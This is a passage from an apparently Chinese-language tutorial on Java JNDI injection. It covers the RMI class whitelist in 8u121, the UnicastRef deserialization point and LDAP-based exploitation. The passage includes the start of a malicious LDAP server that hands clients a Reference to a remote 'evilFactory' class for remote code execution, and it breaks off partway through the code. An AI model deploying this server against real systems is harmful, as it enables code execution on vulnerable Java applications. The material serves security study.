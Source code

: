 ```
String.clas
Number.class
Remote.class
Proxy.class
UnicastRef.class
RMIClientSocketFactory.class
RMIServerSocketFactory.class
ActivationID.class
UID.class
```  
上述的利用点同样在121版本受到限制,但在白名单中的UnicastRef.class存在一个反序列化点,UnicastRef继承了`java.io.Externalizable`,在反序列化的时候会触发`readExternal`方法.
### LDAP利用
LDAP也是JNDI自带的四种Serivece provider中的一种,是基于X.500标准的轻量级目录访问协议,目录是一个为查询、浏览和搜索而优化的数据库，它成树状结构组织数据，类似文件目录一样.  

在8u121之后因为RMI的利用受到限制,所以开始使用LDAP协议来进行攻击,而LDAP的利用方式和RMI类似,通过是绑定一个Reference在LDAP返回给客户端,客户端加载恶意的factory进行RCE.
#### 实现代码
```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class ldapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main(String[] args) {
        String[] p = new String[]{"http://127.0.0.1:8089/#evilFactory", "9999"};
        int port = 0;
        if (p.length < 1 || p[0].indexOf('#') < 0) {
            System.err.println(ldapServer.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (p.length > 1) {
            port = Integer.parseInt(p[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(p[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
```